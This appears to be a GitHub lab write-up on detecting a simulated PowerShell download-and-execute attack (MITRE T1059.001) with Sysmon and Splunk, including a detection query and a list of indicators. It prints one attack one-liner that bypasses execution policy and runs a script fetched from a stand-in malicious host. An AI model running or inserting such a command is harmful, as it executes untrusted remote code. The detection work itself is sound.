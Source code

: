 # T1059.001 – PowerShell Execution (Atomic Red Team)

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🎯 Description

We use an Atomic Red Team payload to simulate a fileless PowerShell attack that downloads and runs a script remotely. This simulates common adversary behavior seen in malware, ransomware loaders, and APTs.

### Atomic Command Used:

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This payload:

* Bypasses PowerShell execution policies
* Uses `IEX` (Invoke-Expression) to run code from memory
* Pulls down remote scripts using `Net.WebClient`

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* **Sysmon Event ID 1** logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Use of `-nop`, `-exec bypass`
* `IEX`, `Net.WebClient`, or `DownloadString`
* Long base64 or obfuscated strings

---

## ✅ Result

* The attack was logged by Sysmon and successfully forwarded to Splunk.
* Analysts can see full command line arguments in Splunk's search.
* The query clearly shows the suspicious PowerShell activity.

---

## 📸 Screenshots

### 1. PowerShell attack launched from ART:

**File:** `T1059.001 attack.PNG`
![PowerShell Attack](../attacks/T1059.001-powershell/screenshots/T1059.001%20attack.PNG)

### 2. Splunk confirms detection:

**File:** `shows that T1059.001 can spot this kind of attack.PNG`
![Detection Confirmed](../attacks/T1059.001-powershell/screenshots/shows%20that%20T1059.001%20can%20spot%20this%20kind%20of%20attack.PNG)

### 3. Manual search for PowerShell:

**File:** `we can search powershell as well to see.PNG`
![Search PowerShell](../attacks/T1059.001-powershell/screenshots/we%20can%20search%20powershell%20as%20well%20to%20see.PNG)

### 4. Explanation of what the command does:

**File:** `what the command does.PNG`
![Command Explained](../attacks/T1059.001-powershell/screenshots/what%20the%20command%20does.PNG)

### 5. What to look for in command line activity:

**File:** `what to look for in powershell.PNG`
![Indicators](../attacks/T1059.001-powershell/screenshots/what%20to%20look%20for%20in%20powershell.PNG)

